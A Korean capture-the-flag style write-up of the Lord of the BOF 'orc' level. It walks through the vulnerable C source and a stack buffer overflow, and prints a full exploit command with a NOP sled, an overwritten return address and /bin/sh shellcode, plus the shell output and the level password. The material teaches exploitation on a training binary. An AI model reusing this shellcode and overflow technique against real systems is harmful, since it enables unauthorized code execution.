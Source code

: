 ```yaml
---
title: "LOB egghunter Write-Up"
tags: [lob]
categories: [System]
---
```


## Index

1. [문제 분석](#문제-분석)
2. [소스코드 분석](#소스코드-분석)
3. [Exploit](#exploit)
4. [After Exploit](#after-exploit)
5. [Reference](#reference)

* * *

## 문제 분석

문제에 접속하면 orc 두 마리를 확인할 수 있습니다.

```
[goblin@localhost goblin]$ ls -l
total 20
-rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
-rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
```

문제 파일의 동작을 간단하게 살펴보면 argument를 필요로 하며 임의의 값을 입력 시 아래의 값을 출력하는 것을 확인할 수 있었습니다.

```
[goblin@localhost goblin]$ ./orc TEST
stack is still your friend.
```

문자열의 크기와 상관없이 같은 결과를 출력하였기 때문에 이를 우회할 필요가 있다고 판단되었습니다.

## 소스코드 분석

일차적으로 gdb를 사용하여 분석을 시도하였을 때 성과를 얻지 못하였기 때문에 소스코드 분석을 시도하였습니다. 코드는 다음과 같았습니다.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter 
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]); 
	printf("%s\n", buffer);
}
```

가장 먼저 눈에 들어온 것은 if문을 사용하여 argv[1] 배열의 47 idx가 `\xbf`가 아닐 경우 "stack is still your friend" 라는 문구를 출력하는 것 이었습니다.

따라서 해당 조건을 만족할 수 있도록 아래와 같은 payload를 작성하였을 때 다른 동작을 확인할 수 있었습니다.

```
[goblin@localhost goblin]$ ./orc `python -c 'print("A"*47+"\xbf")'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿
Segmentation fault
```

buffer의 크기가 40이므로 검사 대상인 47 idx의 역할을 생각해보면 dummy가 없다는 가정 하에 RET 주소의 위치에 해당함을 알 수 있었습니다.

> buffer(40) + sfp(4) + RET(4)

## Exploit

주어진 buffer의 크기가 shellcode를 삽입하기에 충분하므로 직접 shellcode 삽입을 통한 shell 획득을 시도하였으나 실패하였습니다.

이에 대한 원인으로는 return할 주소에 대해 제대로 구하지 못한 것으로 생각됩니다. 다른 풀이를 찾아보던 중 앞의 44 Byte를 모두 `nop`으로 채운 뒤 조작할 RET 주소를 RET 뒤에 위치시키는 방법이 있었습니다.

이를 참고하여 최종적으로 사용한 payload는 다음과 같습니다.

> nop(44) + RET(4) + nop shielded shellcode

```
[goblin@localhost goblin]$ ./orc `python -c 'print("\x90"*44+"\x50\xfa\xff\xbf"+"\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*20)'`
P󿐐1󿿐h//shh/bin⏓󿲒°
                 ̀ 
bash$ my-pass
euid = 504
cantata
```

## After Exploit

문제에 대한 해결은 성공하였으나 정작 문제의 제목인 egghunter에 대한 의문이 있었습니다. 알아본 결과 이는 프로그램 실행 시 환경 변수를 불러와 재설정 하는 과정이었습니다.

이 과정이 egghunter인 이유는 shellcode를 환경 변수에 등록하여 호출하는 기법을 EGG 기법이라 칭하여 붙여진 것으로 생각됩니다.

* * *

## Reference

- <https://moc0.tistory.com/27>
